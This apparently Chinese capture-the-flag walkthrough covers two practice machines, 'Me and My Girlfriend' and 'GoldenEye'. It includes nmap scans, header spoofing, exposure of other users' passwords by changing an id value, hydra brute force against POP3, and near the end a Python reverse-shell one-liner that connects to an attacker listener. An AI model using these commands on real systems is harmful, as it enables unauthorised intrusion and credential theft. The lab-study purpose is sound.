添加到环境变量

再次尝试登录，成功登录

成功拿到flag

我和我的女朋友
1、信息收集
1.1扫描内网主机
xxxxxxxxxxnetdiscover -i eth0 -r 192.168.128.0/24
发现目标主机IP为192.168.128.139

1.2扫描靶机的服务&端口
xxxxxxxxxxnmap -sS -p- -sV 192.168.128.139
发现目标主机开启22(ssh)、80(http)端口，

1.3访问靶机web服务

1.3.1查看网页源代码
提示使用x-forwarder-for

1.3.2使用ModHeader插件
添加并刷新后成功进入页面

1.3.3访问注册页面

1.3.4登录


1.3.5点击页面

发现该页面可以查看用户名和密码

1.3.6 观察url发现sql注入漏洞
通过修改id的值可以查看不同用户的信息


通过修改前端代码可是显示出密码原文


2、漏洞利用
2.1 尝试SSH登录
通过不同账号尝试当id=5时的账号可以进行登录

2.2查看当前目录下的文件
.my_secret(我的秘密)目录很可疑

2.2.1 访问.my_secret目录并查看文件
获取到flag1，并得到提示下一步是获取到root的flag

3、权限提升
3.1访问web服务配置目录并查看文件
config目录很可疑

3.1.1访问config目录并查看文件
发现php链接数据库语句，并显示出了root的账号密码

3.2提升权限为root

3.3访问根目录

goldeneye
1、信息收集
1.1扫描内网主机
xxxxxxxxxxnetdiscover -i eth0 -r 192.168.128.0/24

1.2扫描靶机端口&服务
靶机开启25(smtp)、55006、55007(pop3)端口邮件服务器和80(http)端口web服务器

1.3访问靶机web服务
获取信息：登录页面为 /sev-home/

1.3.1查看网页源代码

1.3.2查看文件
翻译后发现用户名以及加密后的密码
用户名：Boris
密文：InvincibleHack3r HTML编码
解码：InvincibleHack3r
已经另外一个用户：Natalya

1.4 登录
输入密码后发面没有反应

1.4.2使用小写用户名进行尝试
登录成功


翻译：“黄金眼”是苏联的绝密武器项目。由于您拥有访问权限，您肯定拥有绝密许可并有资格成为经过认证的GoldenEye网络运营商(GNO)。请给合格的GNO主管发电子邮件，以接受在线GoldenEye运营商培训，成为GoldenEye系统的管理员。请记住，由于匿名安全性非常有效，我们已将pop3服务配置为在非常高的非默认端口上运行
由于上面我们扫描出 55006、55007(pop3)端口
2、漏洞挖掘
2.1 爆破boris 的pop3邮箱密码
xxxxxxxxxxhydra -l boris -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3

2.2 访问邮箱
xxxxxxxxxxnc 192.168.128.140 55007+OK GoldenEye POP3 Electronic-Mail Systemuser boris+OKpass secret1!+OK Logged in.

2.3 读取信息


2.3.1 查看信息
从第三个邮件信息可以获取到一个新的用户：Xenia
你和我们集团的合作会有大回报的。附件是GoldenEye的最终访问码。将它们放在该服务器根目录下的隐藏文件中，然后从此电子邮件中删除。这些访问码只能有一组，我们需要为最后的执行保护它们。如果他们被抓回来，我们的计划就完蛋了!一旦Xenia进入培训网站并熟悉了黄金眼终端代码，我们将推进到我们的最后阶段
PS -保持安全严密，否则我们将受到损害。
2.4 爆破Xenia的密码
xxxxxxxxxxhydra -l Natalya -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3

2.4.1 登录邮箱并查看信息

2.4.2 查看第二封邮件获取信息
好的，Natalyn，我给你介绍了一个新学生。由于这是一个新系统，如果你看到任何配置问题，特别是与安全相关的问题，请告诉我或boris…即使不是，也可以在“安全”的幌子下输入……它将使更改订单升级，没有太多麻烦:)好，用户信用是:==用户名:xenia密码:RCP90rulez==!鲍里斯证实她是一个有效的承包商所以创建一个账户，好吗?如果你没有URL在外部内部域:severnaya-station.com/gnocertdir 确保编辑你的主机文件，因为你通常工作远程离网
由于您是Linux用户，只需将此服务器的IP指向/etc/hosts.中的severnaya-station.com
2.5 根据信息修改hosts文件

2.6 访问severnaya-station.com/gnocertdir/

2.6.1 登录xenia用户

2.6.2通过点击索引获取信息
获取到一个新的用户Doak

2.7爆破Doak用户
xxxxxxxxxxhydra -l Doak -P /usr/share/wordlists/fasttrack.txt 192.168.128.140 -s 55007 pop3

2.7.1 登录Doak用户并查看信息

詹姆斯，如果你正在读这篇文章，恭喜你已经走了这么远。你知道谍报技术是怎么运作的吧?因为我不知道。去我们的培训网站，登录我的账户....挖掘，直到你可以泄漏更多的信息......用户名:dr_doak 密码: 4England!
2.8 severnaya-station.com/gnocertdir/并登录dr_doak用户

2.8.1 点击索引查看获取信息
得到一个s3cret.txt的文件

查看s3cret.txt文件，得到一个路径

2.8.2 访问/dir007key/for-007.jpg

2.8.3 查看该图片的信息
看到有一个加密字符串，判断为base64编码，解密获得：xWinter1995x! 猜测为admin的密码


2.9 访问severnaya-station.com/gnocertdir/并尝试登录admin用户
登录成功

2.9.1 查看索引获取信息

2.9.2 修改为python脚本
xxxxxxxxxxpython -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.159.137",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
3、权限提升
3.1 通过console运行